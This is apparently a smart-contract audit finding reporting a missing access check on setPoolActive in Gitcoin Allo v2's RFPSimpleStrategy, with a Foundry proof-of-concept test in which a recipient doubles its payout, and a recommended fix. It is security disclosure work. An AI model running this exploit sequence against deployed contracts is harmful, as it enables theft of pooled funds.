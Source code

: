 Silly Carob Opossum

high

# RFPSimpleStrategy setPoolActive function has no onlyPoolManager modifier

The `setPoolActive` function in `RFPSimpleStrategy.sol` has no `onlyPoolManager` modifier.

```solidity
/// @dev 'msg.sender' must be a pool manager to close the pool. Emits a 'PoolActive()' event.
function setPoolActive(bool _flag) external {
    _setPoolActive(_flag);
    emit PoolActive(_flag);
}
```

Also, it emits the `PoolActive` event twice because the internal `_setPoolActive` function in `BaseStrategy.sol` emits it too.

```solidity
function _setPoolActive(bool _active) internal {
    poolActive = _active;
    emit PoolActive(_active);
}
```

## Vulnerability Detail

Anyone is allowed to change the activity status of the pool, which strategy is (or extends) RFPSimpleStrategy.

## Impact

It can affect all the scenarios that use functions with `onlyActivePool` and `onlyInactivePool` modifiers. 

1. The most critical one is that the accepted recipient can increase the payout amount by activating the pool and calling the `registerRecipient` function once again to update `proposalBid`.
2. Also, it's possible to prevent the registration of other recipients or prevent the owner from withdrawing funds.

## POC

Add this test to `RFPSimpleStrategyTest`, run with `forge test --mc RFPSimpleStrategyTest --mt testPOC -vv`.

```solidity
function testPOC() external {
    // Register recipient with initial proposalBid equals half of strategy max maxBid
    address attacker = recipient();
    uint256 initialProposalBid = maxBid / 2;
    Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
    bytes memory data = abi.encode(attacker, false, initialProposalBid, metadata);

    vm.prank(address(allo()));
    address recipientId = strategy.registerRecipient(data, attacker);

    RFPSimpleStrategy.Recipient memory _recipient = strategy.getRecipient(recipientId);
    assertEq(uint8(_recipient.recipientStatus), uint8(IStrategy.Status.Pending));
    assertEq(_recipient.proposalBid, initialProposalBid);

    // Set two milestones: 70% and 30%  
    __setMilestones();

    // Accept recipient, pool becomes inactive
    vm.prank(address(allo()));
    strategy.allocate(abi.encode(recipientId), address(pool_admin()));

    assertEq(strategy.acceptedRecipientId(), recipientId);
    assertEq(strategy.isPoolActive(), false);

    // Recipient sets pool active, updates proposalBid and sets pool inactive back again
    vm.prank(attacker);
    strategy.setPoolActive(true);
    assertEq(strategy.isPoolActive(), true);

    uint256 proposalBid = maxBid;
    data = abi.encode(attacker, false, proposalBid, metadata);

    vm.prank(address(allo()));
    strategy.registerRecipient(data, attacker);

    vm.prank(attacker);
    strategy.setPoolActive(false);
    assertEq(strategy.isPoolActive(), false);

    _recipient = strategy.getRecipient(recipientId);
    assertEq(_recipient.proposalBid, maxBid);

    // Recipient submits upcoming milestone
    vm.prank(attacker);
    strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));

    // Pool distributes funds
    uint256 attackerInitialBalance = attacker.balance;
    
    vm.deal(pool_admin(), 1e19);
    vm.prank(pool_admin());
    allo().fundPool{value: 1e19}(poolId, 1e19);

    vm.prank(address(allo()));
    strategy.distribute(new address[](0), "", pool_admin());

    // Recipient got x2 payout
    uint256 expectedPayout = (initialProposalBid * 7e17) / 1e18;
    uint256 payout = attacker.balance - attackerInitialBalance;
    assertEq(payout, expectedPayout  * 2);
}
```

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L216-L222

## Tool used

Manual Review

## Recommendation

Add the `onlyPoolManager` modifier, and remove emitting the `PoolActive` event.

```solidity
function setPoolActive(bool _flag) external onlyPoolManager(msg.sender) {
    _setPoolActive(_flag);
}
```
